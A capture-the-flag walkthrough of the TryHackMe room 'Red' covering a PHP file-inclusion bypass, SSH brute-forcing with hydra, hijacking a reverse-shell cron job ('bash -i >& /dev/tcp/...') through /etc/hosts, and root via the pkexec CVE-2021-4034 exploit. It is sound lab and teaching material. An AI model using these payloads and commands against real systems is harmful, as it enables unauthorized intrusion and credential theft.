 # Red

https://tryhackme.com/room/redisl33t

*A classic battle for the ages.* - rated Easy

A pretty fun room! Few twists and turns, nothing too complicated, and similar to my [Hacker vs. Hacker room](https://tryhackme.com/room/hackervshacker) with its simulation of an on-machine adversary looking to bump your shells, though I think this room does it better :)

1. Scanning reveals just two ports, 22 and 80. On 80 is a brochure-ware site, which immediately suggests some form of LFI as its home page is `/index.php?page=home.html`. Further enumeration of the site doesnt reveal anything interesting.

2. The LFI doesn't work with simple payloads, e.g. `?page=/etc/passwd` or `?page=../../../../../etc/passwd`. However, using a php filter like `?page=php://filter/convert.base64-encode/resource=index.php` allows us to read the index.php source code (after reversing the base64 encoding): 

	```php
	<?php 

    function sanitize_input($param) {
        $param1 = str_replace("../","",$param);
        $param2 = str_replace("./","",$param1);
        return $param2;
    }
    
    $page = $_GET['page'];
    if (isset($page) && preg_match("/^[a-z]/", $page)) {
        $page = sanitize_input($page);
        readfile($page);
    } else {
        header('Location: /index.php?page=home.html');
    }
    
    ?>
	```

3. This shows two protections: `preg_match("/^[a-z]/", $page)` ensures that the first character of the page must be an alphabetic character, and the `sanitize_input` function prevents any path traversal. As shown by using the php filter, this is an easy way to bypass this (as the first character is `p` in `php://`) - in fact it can be simplified, and you can read the passwd file with `?page=php://filter/resource=/etc/passwd`: no path traversal, as we are using an absolute path. This reveals there are two users of note (aside from root): `red` and `blue`.

4. We can only read files - the `readfile` function will prevent loading PHP code (it will be read as text). Interestingly, we can read from remote addresses like the attack box, but without PHP interpretation this seems worthless. So, enumerating some interesting files is the path forward. Eventually, trying for /home/blue/.bash_history revealed something interesting:

	```
	echo "Red rules"
    cd
    hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
    cat passlist.txt
    rm passlist.txt
    sudo apt-get remove hashcat -y
	```

5. Reading `.reminder` revealed `sup3r_p@s$w0rd!`. To replicate the process to generate random password variations, on the THM attack box the command `hashcat --stdout .reminder -r /opt/hashcat/rules/best64.rule > passlist.txt` was used (the `best64.rule` file is in a different location than on the target). Then, the password was brute forced with `hydra -l blue -P passlist.txt ssh://[targetIP]`

> Note, the password seemed to change every minute, so it was best to keep this hydra command handy.

6. Logging on as blue, **the first flag** is in their home directory. Several messages are eventually sent your way and eventually the session is killed, as the room description suggested would happen. To avoid this, use ssh `blue@[targetIP] -T` - `-T` doesn't create a pts file, meaning standard methods of killing user sessions don't work. This is a common trick in THMs [King of the Hill](https://tryhackme.com/games/koth) game mode, which I document here on [my koth tips and tricks](https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/README.md#general-tips-and-tricks).

7. Poking about, you can see an interesting process being run every minute via `ps aux`: `bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001` - this is being run as the user `red`, the next target user, and if there is a listener on 9001 on redrules.thm this will grant a rev shell. If you cat /etc/hosts to see where redrules.thm is, you will see:

	```
	127.0.0.1 localhost
    127.0.1.1 red
    192.168.0.1 redrules.thm
    
    # The following lines are desirable for IPv6 capable hosts
    ::1     ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    ff00::0 ip6-mcastprefix
    ff02::1 ip6-allnodes
    ff02::2 ip6-allrouter
	```

8. The IP address 192.168.0.1 does not exist in this network. If you use `ls -la` on `/etc/hosts` you will see it has the permissions `-rw-r--rw- 1 root adm 242 Jul 14 21:27 /etc/hosts` - this suggests it *should* be writable, however attempts to do so will fail. When a file is supposedly writable but you can't edit it, a KOTH trick is to check its extra attributes. This can be done with `lsattr /etc/hosts` which will reveal: `-----a--------e----- /etc/hosts`. That is, the file can be appended to only. Therefore `echo test >> /etc/hosts` will work.

9. Hosts seems to follow a latest rule found approach, so adding your attack box to hosts like `echo [attackboxIP] redrules.thm >> /etc/hosts` works and then starting a listener `nc -nvlp 9001` will quickly get you a reverse shell as red.

> much like blue's password, the hosts file is reverted on a regular basis so you might need to repeat this process more than once.

10. **The second flag** is in red's home directory. Enumerating the machine a couple of things stand out. First, there is a .git folder in red's home dir, but it doesn't represent a git repo. Instead it contains a copy of pkexec, with the suid bit set. This doesn't immediately indicate escalation, as pkexec is supposed to have the suid bit and will fail if it doesn't. In fact, the normal pkexec file, with the same size and hash and so the same version of pkexec, is still located in its normal place, escept the suid bit has been removed - if you try to run it it will fail.

11. Checking the version of pkexec can be done with `/home/red/.git/pkexec --version`, which reports 0.105. A quick goog will find CVE-2021-4034, a local privilege vuln. This will not work with regular pkexec because of the missing suid bit, but should work with the hidden copy in red's folder.

12. The exploit I used was from here: https://packetstormsecurity.com/files/165739/PolicyKit-1-0.105-31-Privilege-Escalation.html. It involves creating a `makefile`, `evil-so.c` and `exploit.c` file on the attack box, **altering `exploit.c` so that the path to pkexec uses the path for red's copy**, running `make`, then copying the created `evil.so` and `exploit` to the target machine (/tmp is writable, so I placed them there). Running `chmod +x exploit` and then `./exploit` granted a root shell.

> Note this compiles fine on the THM attack box (ubuntu based), and runs fine on the target. If using Kali or another distro it might not compile or compile and then not run with libc errors. Its possible to resolve this by ensuring that the target libc version is used, compiling statically or other means. Elsewise, you can use https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py or something else, a pure python solution.

13. The **final flag** is under `/root` as normal. Additionally, under `/root/defense`, you can see all the little scripts used to simulate the attacker, which is neat.

So yeah, fun room. Used a few techniques I haven't seen in rooms for a good long while.
